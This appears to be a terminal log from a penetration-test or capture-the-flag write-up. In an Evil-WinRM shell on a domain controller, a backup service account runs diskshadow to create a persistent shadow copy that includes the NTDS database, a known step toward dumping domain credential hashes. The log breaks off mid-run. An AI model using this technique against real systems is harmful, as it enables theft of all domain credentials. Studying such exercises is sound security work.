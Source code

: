 ```shell

    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/26/2023   8:16 PM            191 backupscript.txt


*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s backupscript.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  2/26/2023 8:43:16 PM

-> set verbose on
-> set metadata C:\Windows\Temp\meta.cab
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
Excluding writer "Shadow Copy Optimization Writer", because all of its components have been excluded.
Component "\BCD\BCD" from writer "ASR Writer" is excluded from backup,
because it requires volume  which is not in the shadow copy set.
The writer "ASR Writer" is now entirely excluded from the backup because the top-level
non selectable component "\BCD\BCD" is excluded.

* Including writer "Task Scheduler Writer":
        + Adding component: \TasksStore

* Including writer "VSS Metadata Store Writer":
        + Adding component: \WriterMetadataStore

* Including writer "Performance Counters Writer":
        + Adding component: \PerformanceCounters

* Including writer "System Writer":
        + Adding component: \System Files
        + Adding component: \Win32 Services Files

* Including writer "WMI Writer":
        + Adding component: \WMI

* Including writer "DFS Replication service writer":
        + Adding component: \SYSVOL\B0E5E5E5-367C-47BD-8D81-52FF1C8853A7-A711151C-FA0B-40DD-8BDB-780EF9825004

* Including writer "Registry Writer":
        + Adding component: \Registry

* Including writer "COM+ REGDB Writer":
        + Adding component: \COM+ REGDB

* Including writer "NTDS":
        + Adding component: \C:_Windows_NTDS\ntds

Alias cdrive for shadow ID {10c53d13-aa53-4359-9b2c-75879f4a57e1} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {8be740bc-ae10-4869-8c95-f8a084cf50d3} set as environment variable.
Inserted file Manifest.xml into .cab file meta.cab
Inserted file BCDocument.xml into .cab file meta.cab
Inserted file WM0.xml into .cab file meta.cab
```